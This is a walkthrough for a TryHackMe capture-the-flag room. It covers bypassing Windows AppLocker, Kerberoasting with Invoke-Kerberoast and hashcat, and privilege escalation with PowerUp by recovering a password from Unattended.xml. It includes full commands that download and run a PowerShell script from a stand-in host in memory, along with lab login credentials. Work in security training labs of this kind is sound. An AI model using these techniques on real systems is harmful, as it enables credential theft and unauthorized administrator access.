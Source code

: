 # [Corp](https://tryhackme.com/r/room/corp)

![Corp](./images/Corp.png)

Bypass Windows Applocker and escalate your privileges. You will learn about kerberoasting, evading AV, bypassing applocker and escalating your privileges on a Windows system.

## Task 1 - Deploy the Windows machine

In this room, you will learn the following:

1. Windows Forensics
2. Basics of kerberoasting
3. AV Evading
4. Applocker

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

### Answer the questions below

Deploy the windows machine, you will be able to control this in your browser. However if you prefer to use your own RDP client, the credentials are below.

Username: `corp\dark`  
Password: `_QuejVudId6`

## Task 2 - Bypassing Applocker

![task2-logo](./images/task2-logo.png)

AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher, and hash.

You will have noticed that with the deployed machine, you cannot execute your binaries, and certain functions on the system will be restricted.

### Answer the questions below

There are many ways to bypass AppLocker.

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: `C:\Windows\System32\spool\drivers\color` - This is whitelisted by default. 

* Go ahead and use PowerShell to download an executable of your choice locally, place it in the whitelisted directory and execute it.

Just like Linux bash, Windows Powershell saves all previous commands into a file called **ConsoleHost_history**. This is located at `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

* Access the file and obtain the flag.

## Task 3 - Kerberoasting

<img src="./images/task3-logo.png" height=300  width=auto>

It is important you understand how Kerberous actually works in order to know how to exploit it. Watch the video below.

[![Watch the video](./images/task3-thumbnail.jpg)](https://www.youtube.com/watch?v=LmbP-XD1SC8)

Kerberos is the authentication system for Windows and Active Directory networks. There are many attacks against Kerberos, in this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash. We can then crack this hash to get access to another user account!
Answer the questions below

Lets first enumerate Windows. If we run `setspn -T medin -Q */*` we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

Running that command, we find an existing SPN. What user is that for?

Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

Lets first download the Powershell [Invoke-Kerberoast](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1).

```
powershell -ep bypass;
iex(New-Object Net.WebClient).DownloadString('https://YOUR_IP/Kerberoast.ps1') 
```

Now lets load this into memory: `Invoke-Kerberoast -OutputFormat hashcat |fl`

You should get a SPN ticket.

<img src="./images/task3-hascat.png" height=400  width=auto>

Lets use hashcat to bruteforce this password. The type of hash we're cracking is **Kerberos 5 TGS-REP etype 23** and the hashcat code for this is **13100**.

```
hashcat -m 13100 -a 0 hash.txt wordlist --force
```

Crack the hash. What is the users password in plain text?

Login as this user. What is his flag?

## Task 4 - Privilege Escalation

<img src="./images/task4-logo.png" height=100  width=auto>

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.

### Answer the questions below

We will run [PowerUp1.ps1](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1) into memory for enumerating any weakness to abuse for local privilege escalation.

```
powershell -ep bypass;
iex(New-Object Net.WebClient).DownloadString('http://YOUR_IP/PowerUp.ps1') 
```

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it [here](https://support.microsoft.com/en-us/topic/77504e1d-2b75-5be1-3eef-cec3617cc461).

It is also where users passwords are stored in base64 encoding. Navigate to `C:\Windows\Panther\Unattend\Unattended.xml`.

![task4-xml](./images/task4-xml.png)

* What is the decoded password?

* Now we have the Administrator's password, login as them and obtain the last flag.